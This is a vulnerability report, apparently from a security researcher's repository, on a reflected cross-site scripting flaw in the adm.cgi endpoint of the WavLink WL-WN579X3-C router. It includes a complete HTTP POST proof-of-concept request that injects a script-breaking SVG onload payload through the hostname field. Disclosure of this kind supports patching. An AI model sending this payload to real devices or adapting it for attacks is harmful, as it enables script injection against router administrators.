

# WL-WN579X3-C Vulnerability

Vendor:WavLink

Product: WL-WN579X3-C

Vulnerability: XSS

Type:XSS Attack


## Descriptions

We found a XSS vulnerability  in `adm.cgi` that could be triggered by an attacker through carefully crafted packet requests:

In  ftext function,the router compare the `page` parameter.

When the value of `page` is `sysinit`, the function sub_401AD4 will be called.

<div  align="center"></div>

This function defines a variable hostname, retrieves its value from the request  packet, uses the sprintf function to concatenate it into v34, and finally passes the result to sub_40B278 for processing.

<div  align="center"></div>
<div  align="center"></div>

However，the sub_40B278 function creates a response packet and places the unfiltered value of the hostname into the packet.

## Proof of Concept (PoC)

We set `hostname` as **192.168.6.4"</script><svg/onload=alert()><script>"** ,such as:

```http
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.6.4
Content-Length: 400
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.6.4
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.6.4/sysinit.shtml
Accept-Encoding: gzip, deflate, br
Cookie: session=2111611154
Connection: keep-alive

page=sysinit&langChange=0&wl_reddomain=WO&time_zone=UTC-08%3A00&newpass=admin1&skiplist1=12%3B13%3B14%3B&skiplist2=52%3B56%3B60%3B64%3B100%3B104%3B108%3B112%3B116%3B120%3B124%3B128%3B132%3B136%3B140%3B144%3B&skiplist3=&wizardpage=%2Fwizard.shtml&init_page=sysinit.shtml&hostname=192.168.6.4"</script><svg/onload=alert()><script>"&lang_select=en&wl_reddomain1=WO&time_zone1=UTC-08%3A00&newpass1=admin1
```
## outcome
<div  align="center"></div>


